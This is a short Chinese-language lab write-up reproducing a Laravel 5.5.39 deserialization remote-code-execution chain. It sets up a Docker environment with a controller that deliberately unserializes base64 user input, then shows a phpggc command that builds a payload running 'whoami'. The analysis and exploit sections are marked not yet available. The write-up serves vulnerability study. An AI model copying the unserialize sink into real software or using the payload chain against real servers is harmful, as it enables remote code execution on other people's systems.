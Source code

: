 ## Laravel 反序列化链 RCE2

### 漏洞环境

执行如下命令启动一个 `laravel5.5.39` 的环境：

```
docker-compose up -d
```

访问 http://x.x.x.x/index.php/test ，看到 `hello world` 既搭建成功

测试代码

```php
<?php
namespace App\Http\Controllers;

class TestController extends Controller
{
	public function index()
	{
		if(isset($_GET['a']))
		{
			unserialize(base64_decode($_GET['a']));
		}
		else
		{
			echo "hello world";
		}
	}
}
```

### 漏洞影响

5.5.39

### 漏洞分析

暂未开放

### 漏洞复现

使用 `phpggc` 生成 `base64` 编码后的 `payload`

```
php phpggc Laravel/RCE2 system whoami -b
```

![image-20210913220824735](./image01.png)

### 漏洞 EXP

暂未开放



